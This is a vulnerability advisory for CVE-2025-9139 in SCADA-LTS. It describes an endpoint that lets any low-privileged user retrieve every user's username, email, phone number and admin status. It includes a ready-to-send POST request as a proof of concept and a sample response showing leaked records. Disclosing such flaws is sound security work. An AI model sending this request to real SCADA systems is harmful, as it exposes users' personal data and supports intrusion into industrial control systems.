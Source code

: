 # CVE-2025-9139: Sensitive User Information Disclosure via `WatchListDwr.init.dwr` Endpoint

### Summary

A vulnerability was identified in the `WatchListDwr.init.dwr` endpoint of SCADA-LTS that allows any authenticated user, even with minimal permissions, to access sensitive user information including usernames, emails, phone numbers, and admin status. This flaw constitutes an **Information Disclosure** issue and could be used to facilitate further attacks such as phishing, privilege escalation, or social engineering.

### Details

- **Vulnerable Endpoint:** `POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`  
- **Authentication Required:** Yes (low-privileged user)  
- **Affected Parameter:** N/A (static DWR call)  
- **Impact Type:** Information Disclosure

By issuing a crafted POST request to the vulnerable endpoint, a low-privileged user is able to retrieve detailed information of all users in the system. The backend responds with a full JavaScript object containing data such as usernames, emails, admin flags, and phone numbers.

#### Sample Request:
````
POST /Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr HTTP/1.1
Host: kubernetes.docker.internal:8080
Content-Type: text/plain

callCount=1
page=/Scada-LTS/watch_list.shtm
httpSessionId=
scriptSessionId=XYZ123456789
c0-scriptName=WatchListDwr
c0-methodName=init
c0-id=0
batchId=1
````

#### Sample Response Snippet:

````
javascript
s7.admin=true;
s7.email="admin@yourMangoDomain.com";
s7.username="admin";

s8.admin=false;
s8.email="anonymous@mail.com";
s8.username="anonymous";

s11.admin=false;
s11.email="user1@x.com";
s11.phone="13212313131";
s11.username="user1";

````

### Proof of Concept (PoC)

1. Authenticate as any valid low-privileged user.
![image](/images/disclousure002.png)
2. Send the above POST request to `/Scada-LTS/dwr/call/plaincall/WatchListDwr.init.dwr`.
![image](/images/disclousure001.png)
3. Observe the server response containing sensitive information of all users in the SCADA system.

### Impact
- Privacy Violation: Emails, phone numbers, and usernames of all users, including administrators, are exposed.

- Privilege Escalation Support: Knowledge of admin usernames and roles could be leveraged in further attacks.

- Phishing and Social Engineering: Exposed contact information can be used to craft highly targeted attacks.

- Reconnaissance: Attackers can map the user structure of the SCADA-LTS system for further exploitation.

# References

[CVE-2025-9139](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2025-9139)

[VulnDB-320519](https://vuldb.com/?id.320519)

[SCADA-LTS – Official Repository](https://github.com/SCADA-LTS/Scada-LTS)

# Discoverer

[Natan Maia Morette](https://nmmorette.github.io) 

by [CVE-Hunters](https://github.com/Sec-Dojo-Cyber-House/cve-hunters)

